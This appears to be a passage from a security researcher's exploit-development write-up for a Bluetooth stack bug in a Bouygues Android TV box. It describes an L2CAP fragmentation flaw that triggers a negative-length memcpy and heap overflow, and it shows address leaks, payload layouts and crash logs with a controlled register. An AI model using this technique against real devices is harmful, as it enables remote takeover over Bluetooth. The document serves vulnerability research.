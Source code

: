 We can see at mem_offset 180 and 184 some memory address in little endian

a4ce80a3 give address 0xa380cea4
24d280a3 give address 0xa380d224
a4d580a3 give address 0xa380d5a4
9cce80a3 give address 0xa380ce9c
1cd280a3 give address 0xa380d21c
9cd580a3 give address 0xa380d59c

There is at least 4 or 5 mem_offset where is possible to find real memory address after nearly all reboot
We will see later how we can use them


########################################################################################

ANALYSE OF FIRST CRASH

########################################################################################

By sending l2cap packet with 2 bytes fragmentation we can trigger a memcpy of -2 length in reassemble_and_dispatch
This allow to overflow outside the partial packet with 30 bytes of controlled data from the second packet
Because of the 30 copied bytes it's not necessary to send packets bigger than 32 bytes with 4 last bytes null

This overflow method sometimes crash the bluetooth deamon with controlled R0 register in _Z11list_appendP6list_tPv+65:

HCI: Found link transmit data buffer queue at 0xab90dbc4
HCI: Found SetDataAdvDataSender function at 0x91875b29
HCI: Found bte_hh_evt function at 0x91818429
HCI: Found bluetooth library base address at 0x917a0000
First payload:
0x00: 0xdead0000 | 0x04: 0xdead0001 | 0x08: 0xdead0002 | 0x0c: 0xdead0003
0x10: 0xdead0004 | 0x14: 0xdead0005 | 0x18: 0xdead0006 | 0x1c: 0xdead0007
Second payload:
0x00 : 0xab90db14: 0xdead0008 | 0xab90db18: 0xdead0009 | 0xab90db1c: 0xdead000a | 0xab90db20: 0xdead000b
0x10 : 0xab90db24: 0xdead000c | 0xab90db28: 0xdead000d | 0xab90db2c: 0xdead000e | 0xab90db30: 0xdead000f
0x20 : 0xab90db34: 0xdead0010 | 0xab90db38: 0xdead0011 | 0xab90db3c: 0xdead0012 | 0xab90db40: 0xdead0013
0x30 : 0xab90db44: 0xdead0014 | 0xab90db48: 0xdead0015 | 0xab90db4c: 0xdead0016 | 0xab90db50: 0xdead0017
0x40 : 0xab90db54: 0xdead0018 | 0xab90db58: 0xdead0019 | 0xab90db5c: 0xdead001a | 0xab90db60: 0xdead001b
0x50 : 0xab90db64: 0xdead001c | 0xab90db68: 0xdead001d | 0xab90db6c: 0xdead001e | 0xab90db70: 0xdead001f
0x60 : 0xab90db74: 0xdead0020 | 0xab90db78: 0xdead0021 | 0xab90db7c: 0xdead0022 | 0xab90db80: 0xdead0023
0x70 : 0xab90db84: 0xdead0024 | 0xab90db88: 0xdead0025 | 0xab90db8c: 0xdead0026 | 0xab90db90: 0xdead0027
0x80 : 0xab90db94: 0xdead0028 | 0xab90db98: 0xdead0029 | 0xab90db9c: 0xdead002a | 0xab90dba0: 0xdead002b
0x90 : 0xab90dba4: 0xdead002c | 0xab90dba8: 0xdead002d | 0xab90dbac: 0xdead002e | 0xab90dbb0: 0xdead002f
0xa0 : 0xab90dbb4: 0xdead0030 | 0xab90dbb8: 0xdead0031 | 0xab90dbbc: 0xdead0032 | 0xab90dbc0: 0xdead0033
0xb0 : 0xab90dbc4: 0xdead0034 | 0xab90dbc8: 0xdead0035
ADB: Found interesting crash !!!
libc    : Fatal signal 11 (SIGSEGV), code 1, fault addr 0xdead0003 in tid 3918 (bt_workqueue)
DEBUG   : *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
DEBUG   : Build fingerprint: 'BouyguesTelecom/BouygtelTV/HMB4213H:8.0.0/CALIFORNIE/6.30.13:user/release-keys'
DEBUG   : Revision: '0'
DEBUG   : ABI: 'arm'